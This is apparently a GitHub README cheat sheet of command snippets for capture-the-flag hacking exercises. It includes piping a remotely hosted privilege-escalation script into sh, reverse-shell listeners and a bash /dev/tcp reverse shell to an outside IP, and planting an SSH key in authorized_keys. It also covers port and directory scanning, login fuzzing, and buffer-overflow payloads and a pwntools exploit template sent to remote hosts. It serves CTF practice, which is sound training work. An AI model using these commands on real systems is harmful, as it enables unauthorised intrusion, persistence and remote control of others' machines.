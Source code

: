 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.

## good enum scripts
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
```bash
sudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh
```

### search for string in files
```
grep -r "string"
```


## initial tasks and enumeration
## linux privileges
##### exploits/privesc for common binaries
https://gtfobins.github.io/
##### listen for reverse shell connection
```bash
nc -lvp 1234
# or
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
##### add ssh key to trusted (login)
```bash
echo "public key on kali" >> authorized_keys
```
##### create python webserver
```
python -m SimpleHTTPServer 4004
python3 -m http.server 4004
```
##### find out which shell is used
```bash
echo $0
```
##### upgrade shell with sh to bash, spawn reverse shell
```bash
whereis bash
/user/bin/bash
bash -i >& /dev/tcp/10.10.14.123/4004 0>&1
```
##### upgrade shell with python to bash
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
##### get current user
```bash
whoami
```
##### change user to username
```bash
su - username
```
##### check, what can be executed with root
```bash
sudo -l
```
##### enumerate linux system (for example with www-data user)
```bash
https://github.com/rebootuser/LinEnum
```
## reverse hash
```bash
john hashes.txt --word-list=/usr/share/wordlists/somelist.txt --fformat-Raw-SHA256 --show
```
## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```

##### portscan
###### nmap, initial scan (scans ~1000 scans)
```bash
nmap -Pn -n -oN nmap_initial.txt 10.10.10.10
nmap -sV -sT -sC -o nmap_initial2.txt 10.10.10.10
```
###### nmap, full port scan
```bash
namp -A -p- -oN nmap_full.txt 10.10.10.10
```
###### nmap, target scan on port 20 and 80
```bash
nmap -Pn -n -p22,80 -sC -sV -oN nmap/targeted 10.10.10.10
```
##### scan for folders and files
###### gobuster, search for folders
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt
```
###### gobuster, search for files (.txt / .php / etc)
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt -x txt
```
##### scan for subdomains
1) add domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```
##### http GET/POST methods
###### curl GET with --data 
```bash
curl --get -d name=admin -d shoesize=12 http://example.com/
```
###### curl POST with --data 
```bash
curl -d name=admin -d shoesize=12 http://example.com/
```
###### wfuzz enumerate POST with --data
```bash
wfuzz -c -d "username=FUZZ&password=n00bsec" -w /usr/share/seclists/Usernames/Names/names.txt -u http://10.10.10.73/login.php
```

## buffer overflow
##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```
##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

## linux binary debugger [gdb]
with peda plugin: https://github.com/longld/peda
###### useful commands
```bash
gdb ./file        # open binary in gdb
run               # r: run binary from start till to first breakpoint
break *0x080492c0 # set breakpoint to address
break main        # set breakpoint to beginning of main() function
info break        # show all breakpoints
-> del 1          # delete first breakpoint
continue          # c: continue execution till next breakpoint
next              # n: execute one line
x/300xb $esp      # show 300 bytes from stack (esp)
```

## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password

### good writeupts:
https://noobsec.net/hackthebox/htb-falafel-writeup-w-o-metasploit/